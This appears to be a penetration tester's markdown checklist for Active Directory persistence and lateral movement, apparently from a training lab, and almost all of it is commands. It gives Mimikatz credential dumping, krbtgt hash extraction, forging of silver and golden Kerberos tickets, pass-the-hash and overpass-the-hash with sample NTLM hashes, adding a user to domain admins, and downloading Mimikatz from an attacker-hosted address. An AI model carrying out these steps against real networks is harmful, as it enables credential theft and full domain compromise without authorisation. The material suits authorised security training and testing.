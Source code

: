 # Persistence
- [ ] Add yourself to domain admins if possible (sanity check)
```
net group "domain admins" myuser /add /domain
```
- [ ] Any cracked hashes from mimikatz? Login
- [ ] Password spraying checked?
- [ ] Privesc techniques checked?
- [ ] **Silver Ticket** - Obtained SPN password hash (NTLM), SID, and Target SPN
```
sekurlsa::logonpasswords # get hash

whoami /user # get domain sid

HTTP/web04.corp.com:80 # example SPN to access web page running on IIS

iwr -uri http://192.168.45.xxx/Mimikatz.exe -Outfile Mimikatz.exe

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin # craft silver ticket

klist

```
- [ ] **Golden Ticket** - Obtained SPN password hash (NTLM), SID, and Target SPN
```
PsExec64.exe \\DC1 cmd.exe - no admin access to the domain controller

lsadump::lsa /patch # get krbtgt hash

whoami /user # get domain sid

kerberos::purge

HTTP/web04.corp.com:80 # example SPN to access web page running on IIS

iwr -uri http://192.168.45.xxx/Mimikatz.exe -Outfile Mimikatz.exe

kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt # craft golden ticket

klist

PsExec64.exe \\DC1 cmd.exe
```

# Lateral Movement

- [ ] Pass the hash
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
- [ ] Overpass the hash -> overabuse an NTLM hash to gain full TGT to obtain TGS
```
iwr -uri http://192.168.45.xxx/Mimikatz.exe -Outfile Mimikatz.exe
.\Mimikatz.exe
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell # run powershell as jen

/whoami # will not show user since same process token

klist

```